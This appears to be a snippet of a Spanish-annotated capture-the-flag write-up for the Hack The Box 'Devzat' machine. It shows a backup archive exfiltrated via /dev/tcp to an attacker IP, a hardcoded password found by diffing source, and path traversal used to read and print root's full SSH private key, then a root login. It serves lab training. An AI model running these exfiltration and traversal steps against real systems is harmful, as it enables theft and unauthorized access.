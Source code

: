 ```console
catherine@devzat:/var/backups$ cat devzat-main.zip > /dev/tcp/10.10.14.12/444
└─$ sudo nc -nlvp 444 > dev.zip
Ncat: Connection from 10.10.11.118:47550.

# Creo en mi sistema una carpeta con los zips y los unzipeo ahí
└─$ diff dev main
< 	// Check my secure password
< 	if pass != "CeilingCatStillAThingIn2021?" {
< 		u.system("You did provide the wrong password")
< 		return

└─$ ssh -l catherine 127.0.0.1 -p 8443 
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
catherine: /file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!
catherine: /file ../../root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
# Nos la copiamos en un archivo llamado "id_rsa"
└─$ chmod 600 id_rsa   
└─$ ssh -i id_rsa root@devzat.htb
root@devzat:~#
```
